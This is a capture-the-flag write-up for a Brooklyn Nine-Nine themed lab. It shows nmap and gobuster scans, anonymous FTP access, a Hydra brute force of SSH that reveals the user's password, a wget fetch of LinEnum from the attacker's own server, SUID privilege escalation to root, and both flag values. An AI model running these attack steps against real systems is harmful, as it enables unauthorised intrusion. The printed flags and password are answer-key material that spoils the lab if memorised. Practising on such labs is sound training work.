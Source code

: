 

Start off with nmap default scripts (-sC), show versions (-sV) and output all formats (-oA).
`sudo nmap -sC -sV -oA nmap 10.10.136.175`

![Alt text](./attachments/Pasted_image_20231123102936.png)
We have 3 ports
21: FTP server
22: SSH server
80: HTTP 

There is a file with a note for 'jake' on the FTP server and I can login anonymously. When prompted with a username, I can put 'anonymous' and leave the password empty when prompted (just press enter). 
After login, I can see there is a file there and can use the 'less' command to show the content of the text file: 
![[attachments/Pasted image 20231123103006.png)

I know now that user 'jake' has a weak password and that there are 3 users in total:
- jake
- amy
- holt
As seen in amy's message, it looks like the user holt is some sort of admin. 

After, I visited the webpage, where there is an image of Brooklyn nine nine, a television show. I googled the main character, who is called 'jake'. If I would not have found the note, I would have tried to use the username jake as well, but we know with the message on the FTP server we definitely have something here. We also find a note on the FTP server being stored there for Jake.

Now that we know the usernames, I can try to use Hydra to brute force into the SSH server. As only jake has a weak password, I will only try to brute force his credentials.

`hydra -l jake -P /usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt 10.10.136.175 -t 4 ssh`

In the meantime, I also kick off a gobuster to see if we can find any other directories in the meantime.
`gobuster dir -u http://10.10.136.175 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

The gobuster didn't result into anything, but Hydra did find a password for the user jake:
![[attachments/Pasted image 20231123103050.png)

I can now login to the SSH server with: 
Username: jake
Password: 987654321
`ssh jake@10.10.136.175`

We are now logged into the SSH server!
![[attachments/Pasted image 20231123103106.png)

I can now try to move to other folders. When I move up to the home directory, the folders for amy and holt are there. If we look into holt's directory and list all files, we find 
## Flag 1 user.txt: ee11cbb19052e40b07aac0ca060c23ee
![[attachments/Pasted image 20231123103128.png)

Now I need to escalate my privileges to find the root.txt flag.
I will start getting the LinEnum package onto the SSH server. The script I used [can be found here](https://github.com/rebootuser/LinEnum.git)
Next, I setup a local webserver from where I can grab the script from within the SSH server. First move back to jake's folder, as we don't have permissions in holt's folder.
On my local terminal: `python3 -m http.server`
On the SSH server: `wget 10.10.137.228:8000/LinEnum.sh`
I now have the file, but need to make it executable first with the following command:
`chmod +x LinEnum.sh`

All steps are in the following image:
![[attachments/Pasted image 20231123103141.png)

Now I can run the LinEnum script with:
`./LinEnum.sh`

After the enumeration, I can see that there is an interesting SUID file
![[attachments/Pasted image 20231123103201.png)

Looking at [GTFO bins](https://gtfobins.github.io/), there is an exploit I can try to run to get sudo privileges:
![[attachments/Pasted image 20231123103212.png)

After running the command, **we get root access**. To now stabelize the shell and to have autocomplete, I used the following command:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

After this, I was able to access the root directory and find the second and last flag:
### **root.txt: 63a9f0ea7bb98050796b649e85481845**
![[attachments/Pasted image 20231123103222.png)

Thanks for reading!

